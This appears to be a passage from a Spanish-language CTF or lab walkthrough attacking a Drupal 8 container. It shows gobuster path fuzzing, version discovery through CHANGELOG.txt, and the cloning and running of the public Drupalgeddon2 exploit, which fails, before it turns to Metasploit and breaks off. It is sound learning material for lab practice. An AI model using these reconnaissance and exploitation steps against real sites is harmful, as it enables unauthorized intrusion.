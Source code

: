 Realizamos fuzzing de rutas:
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt -t 100 -x php,php.back,backup,txt,sh,html,zip,js,java,py --no-error
```

Tenemos las siguientes rutas:
```bash
/index.php            (Status: 200) [Size: 8860]
/contact              (Status: 200) [Size: 12134]
/search               (Status: 302) [Size: 360] [--> http://172.17.0.2/search/node]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
/user                 (Status: 302) [Size: 356] [--> http://172.17.0.2/user/login]
/modules              (Status: 301) [Size: 310] [--> http://172.17.0.2/modules/]
/sites                (Status: 301) [Size: 308] [--> http://172.17.0.2/sites/]
```

Si intentamos ver las configuracion de la base de datos no tenemos acceso
```bash
http://172.17.0.2/sites/default/settings.php
```

Revisanso este archivo:
```bash
http://172.17.0.2/core/CHANGELOG.txt

New minor (feature) releases of Drupal 8 are released every six months and
patch (bugfix) releases are released every month. More information on the
Drupal 8 release cycle: https://www.drupal.org/core/release-cycle-overview

* For a full list of fixes in the latest release, visit:
 https://www.drupal.org/8/download
* API change records for Drupal core:
 https://www.drupal.org/list-changes/drupal
```

Ahora clonaremos este explioit para **drupal**
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2
```

Instalamos la gema **highline** de ruby
```bash
gem install highline
```

Ejecutamos el exploit
```bash
ruby drupalgeddon2.rb http://172.17.0.2
```

**Nota** Nuestro exploit no funciona ya que por esta razon
```bash
[!] MISSING: http://172.17.0.2/includes/bootstrap.inc    (HTTP Response: 404)
[-] The target timed out ~ Failed to open TCP connection to 172.17.0.2:80 (execution expired)
```

Asi que procedemos a usar **metasploit** para ganar acceso al objetivo
```bash
# Iniciamos metasploit
msfconsole
```
